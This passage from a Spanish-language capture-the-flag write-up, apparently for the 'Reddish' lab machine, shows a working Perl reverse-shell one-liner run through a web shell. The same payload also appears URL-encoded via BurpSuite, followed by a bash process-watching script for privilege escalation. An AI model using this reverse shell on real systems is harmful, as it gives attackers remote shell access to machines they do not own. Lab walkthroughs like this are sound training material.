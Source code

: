 En la web Shell ejecutamos:

```bash
perl -e 'use Socket;$i="172.19.0.4";$p=7979;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Para que esto funcione de la manera correcta debe estar en codeado a `URL`

A traves de `BurpSuite`

![Untitled](/assets/img/Reddish/Pasted image 20240313114502.png)

Obteniendo así:

```bash
%70%65%72%6c%20%2d%65%20%27%75%73%65%20%53%6f%63%6b%65%74%3b%24%69%3d%22%31%37%32%2e%31%39%2e%30%2e%34%22%3b%24%70%3d%37%39%37%39%3b%73%6f%63%6b%65%74%28%53%2c%50%46%5f%49%4e%45%54%2c%53%4f%43%4b%5f%53%54%52%45%41%4d%2c%67%65%74%70%72%6f%74%6f%62%79%6e%61%6d%65%28%22%74%63%70%22%29%29%3b%69%66%28%63%6f%6e%6e%65%63%74%28%53%2c%73%6f%63%6b%61%64%64%72%5f%69%6e%28%24%70%2c%69%6e%65%74%5f%61%74%6f%6e%28%24%69%29%29%29%29%7b%6f%70%65%6e%28%53%54%44%49%4e%2c%22%3e%26%53%22%29%3b%6f%70%65%6e%28%53%54%44%4f%55%54%2c%22%3e%26%53%22%29%3b%6f%70%65%6e%28%53%54%44%45%52%52%2c%22%3e%26%53%22%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%22%29%3b%7d%3b%27
```

![Untitled](/assets/img/Reddish/Pasted image 20240312165350.png)

Obteniendo así:

![Untitled](/assets/img/Reddish/Pasted image 20240312165601.png)

## 172.20.0.2 - 172.19.0.3

La máquina `www-data` dispone de dos interfaces de red la `172.20.X.X/16` y `172.19.X.X/16`

![Untitled](/assets/img/Reddish/Pasted image 20240327201425.png)

### PrivEsc

Elaborando un script en Bash que enumere las tareas en curso a intervalos regulares de tiempo.

```bash
##!/bin/bash

old_process=$(ps -eo command)

while true; do
  new_process=$(ps -eo command)
  diff <(echo "$old_process") <(echo "$new_process") | grep "[\\>\\<]" | grep -vE "command|procmon|kworker"
  old_process=$new_process
done

```
